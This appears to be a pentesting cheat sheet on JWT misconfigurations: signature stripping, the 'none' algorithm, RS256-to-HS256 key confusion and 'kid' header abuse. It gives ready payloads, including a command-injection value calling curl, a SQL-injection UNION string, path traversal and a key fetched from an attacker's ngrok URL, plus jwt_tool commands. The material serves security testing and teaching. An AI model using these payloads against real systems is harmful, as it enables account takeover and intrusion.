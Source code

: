 # JWT Misconfiguration
1. Signature not checked? &rarr; Modify the body,
2. Signature checked only if it exists? &rarr; Modify the body and delete signature.
3. Weak signature &rarr; Bruteforcing signature.
4. None Algorithm attack (Change algorithm to None/none/nONE/NONE).
5. Application uses RS256 algorithm? &rarr; Look for public key using recon. Change the algorithm to HS256 and generate new token using public key.
6. Vulnerable Kid: The kid (key ID) is a hint indicating which key was used to secure the JWS (JSON Web Signature). It's generally used when there are multiple keys to sign the tokens and we need to look up the right one to verify the signature.

```
6.1. Change kid url to your url so that the application use your key to verify the modified JWT token.
ssh-keygen -t rsa -b 4096 -m PEM -f jwtRS256.key
openssl rsa -in jwtRS256.key -pubout -outform PEM -out jwtRS256.key.pub

"kid":"http://localhost/key.pem" --> "kid":"http://xyz.ngrok.io/jwtRS256.key"

6.2. Try publicly accesible files to verify the token.
"kid":"app/secret.pem" --> "kid":"../../public/main.css"

6.3. Command Injection:
"kid":"app/secret.pem && curl http://bing.com &"

6.4. SQLi:

"kid":"hello UNION SELECT 'key';--"
```
### Lab Enviroment:
https://jwt-lab.herokuapp.com/challenges
### Automation:
* git clone https://github.com/ticarpi/jwt_tool
* cd jwt_tool
* pip3 install -r requirements.txt
* python3 jwt_tool.py -M at -t "https://api.example.com/api/v1/profile" -rh "Authorization: Bearer ```<JWT Token>```"

Reference:
- https://book.hacktricks.xyz/pentesting-web/hacking-jwt-json-web-tokens
- https://github.com/KathanP19/HowToHunt/blob/master/JWT/JWT.md
